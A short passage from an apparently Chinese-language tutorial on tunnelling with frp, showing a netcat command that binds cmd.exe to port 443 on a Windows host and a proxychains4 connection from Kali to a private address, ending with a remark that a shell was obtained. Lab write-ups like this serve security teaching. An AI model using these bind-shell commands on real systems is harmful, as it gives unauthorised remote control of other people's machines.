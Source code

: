 ```
C:\Users\windows>nc -Ldp 443 -e cmd.exe
```

基于代理连接

```
┌──(root㉿Kali-24)-[~]
└─# proxychains4 nc -v 192.168.9.102 443
```

> 成功拿到 shell

---

参考链接

- [Frp](https://gofrp.org/)
